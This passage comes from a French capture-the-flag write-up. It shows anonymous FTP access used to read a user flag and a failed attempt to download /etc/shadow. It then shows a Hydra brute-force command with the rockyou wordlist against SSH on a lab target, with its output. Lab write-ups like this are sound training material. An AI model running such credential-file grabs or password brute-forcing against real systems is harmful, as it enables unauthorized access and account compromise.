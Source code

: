 Nous y trouvons un dossier personnel de l'utilisateur Melodias et nous avons la possibilité de récupérer le fichier contenant le flag utilisateur.

Nous pouvons le lire sur notre machine :

```bash
cat user.txt
606083[...expurgé...]706af8
```

En revanche, le dossier `/root` n'est pas accessible de cette manière.

## 3. Accès au serveur

### 3.1 Récupération du fichier Shadow

La tentative de récupérer le fichier `/etc/shadow` contenant les hashes de mot de passe n'a pas fonctionné. Les utilisateurs anonymes n'y ont pas accès.

```bash
ftp> cd /etc
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||54445|)
150 Here comes the directory listing.
[...Expurgé pour brièveté...]
-rw-r-----    1 0        42           1014 Aug 11  2019 shadow
[...Expurgé pour brièveté...]
226 Directory send OK.
ftp> get shadow
local: shadow remote: shadow
229 Entering Extended Passive Mode (|||64609|)
550 Failed to open file.
```

### 3.2 Force brute avec {% include dictionary.html word="Hydra" %}

Nous tentons donc de trouver le mot de passe de l'utilisateur "melodias" par la force brute et l'outil {% include dictionary.html word="Hydra" %} sur le service {% include dictionary.html word="SSH" %} sans grand succès.

```bash
hydra -l 'melodias' -P /usr/share/wordlists/rockyou.txt 10.10.106.181 ssh -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-31 15:33:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.106.181:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://melodias@10.10.106.181:22
[INFO] Successful, password authentication is supported by ssh://10.10.106.181:22
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] ssh protocol error
[...Expurgé pour brièveté...]
```
